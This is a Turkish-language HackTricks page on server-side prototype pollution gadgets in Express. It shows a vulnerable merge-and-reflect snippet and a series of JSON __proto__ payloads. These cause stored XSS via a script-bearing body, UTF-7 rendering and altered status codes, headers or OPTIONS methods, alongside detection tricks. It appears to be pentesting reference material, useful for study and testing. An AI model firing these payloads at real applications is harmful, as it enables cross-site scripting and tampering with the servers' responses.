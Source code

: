 # Express Prototype Pollution Gadgets

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## XSS yanıtlarını sunma

**Daha fazla ayrıntı için** [**orijinal araştırmaya göz atın**](https://portswigger.net/research/server-side-prototype-pollution)

### JSON içerik türünü HTML olarak değiştirin

**JSON içerik türü yanıtı** kullanan bir Express uygulamasında ve bir JSON'u yansıtarak:
```javascript
app.use(bodyParser.json({type: 'application/json'}));
app.post('/', function(req, res){
_.merge({}, req.body);
res.send(req.body);
});
```
Bu durumlarda XSS genellikle JSON içerik türü ile mümkün değildir. Ancak, prototip kirlenmesi ile **Express'i HTML yanıtı sunması için kandırabiliriz.** Bu zafiyet, uygulamanın **`res.send(obj)`** kullanmasına ve uygulama/json içerik türü ile gövde ayrıştırıcısını kullanmasına dayanır.
```json
{"__proto__":{"_body":true,"body":"<script>evil()"}}
```
**`body`** ve **`_body`** özelliklerini **kirleterek**, **Express'in HTML içerik türünü sunmasını** sağlamak ve `_body` özelliğini yansıtmak mümkündür, bu da saklı XSS'e yol açar.

### UTF7'yi Render Et

Express'in **UTF-7 içeriği render etmesini sağlamak mümkündür**:
```json
{"__proto__":{"content-type": "application/json; charset=utf-7"}}
```
## Güvenli Tarama Teknikleri

### JSON boşlukları

Aşağıdaki PP, bir JSON içindeki niteliklerin işlevselliği bozmayacak şekilde ekstra bir boşluğa sahip olmasını sağlayacaktır:
```json
{"__proto__":{"json spaces": " "}}
```
O zaman yansıtılmış JSON şöyle görünecektir:
```json
{"foo":  "bar"} -- Note the extra space
```
### Açık Başlıklar

Aşağıdaki PP aracı, sunucunun HTTP başlığını geri göndermesini sağlayacaktır: **`Access-Control-Expose_headers: foo`**
```json
{"__proto__":{"exposedHeaders":["foo"]}}
```
**CORS modülünün yüklenmesi gerekmektedir**

### **OPTIONS Yöntemi**

Aşağıdaki yük ile, **OPTIONS yanıtından bir yöntemi gizlemek** mümkündür:
```javascript
// Original reponse: POST,GET,HEAD

// Payload:
{"__proto__":{"head":true}}

//New response: POST;GET
```
### **Durum**

Aşağıdaki PP yükü kullanılarak **dönen durum kodu** değiştirmek mümkündür:
```json
{"__proto__":{"status":510}}
```
### Hata

Bir prototipe bir dize gibi bir ilkel atadığınızda, bu **prototipin bir nesne olması gerektiğinden no-op işlemi üretir**. Eğer bir prototip nesnesini `Object.prototype`'a atamaya çalışırsanız, bu **bir istisna fırlatır**. Bu iki davranışı **prototip kirliliğinin başarılı olup olmadığını tespit etmek için** kullanabiliriz:
```javascript
({}).__proto__.__proto__={}//throws type exception
({}).__proto__.__proto__="x"//no-op does not throw exception
```
### Yansıtılan Değer

Bir uygulama yanıtında bir nesne içerdiğinde, **`__proto__` ile birlikte alışılmadık bir isimle bir özellik oluşturmak** faydalı olabilir. Özellikle, eğer **yalnızca alışılmadık özellik yanıt olarak döndürülüyorsa**, bu uygulamanın zayıflığını gösterebilir:
```json
{"unusualName":"value","__proto__":"test"}
```
Ayrıca, Lodash gibi bir kütüphane kullanıldığında, bir özelliği hem prototip kirlenmesi (PP) yoluyla hem de doğrudan nesne içinde ayarlamak başka bir tanısal yaklaşım sunar. Eğer böyle bir özellik yanıttan çıkarılmışsa, bu, Lodash'ın birleştirmeden önce hedef nesnede özelliğin varlığını doğruladığını gösterir:
```javascript
{"__proto__":{"a":"value1"},"a":"value2","b":"value3"}
// If 'b' is the only property reflected, this indicates prototype pollution in Lodash
```
## Misc

### Dots'a İzin Ver

Express'te **sorgu dizesi parametrelerinden nesneler oluşturmanıza** olanak tanıyan bir seçenek vardır.\
Kesinlikle bir hata **zincirinde** kullanarak bir **prototip kirlenmesi açığını** istismar edebilirsiniz.
```json
{"__proto__":{"allowDots":true}}
```
**`?foo.bar=baz` Node'da bir nesne oluşturur.**

## Referanslar

* [https://portswigger.net/research/server-side-prototype-pollution](https://portswigger.net/research/server-side-prototype-pollution)


{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
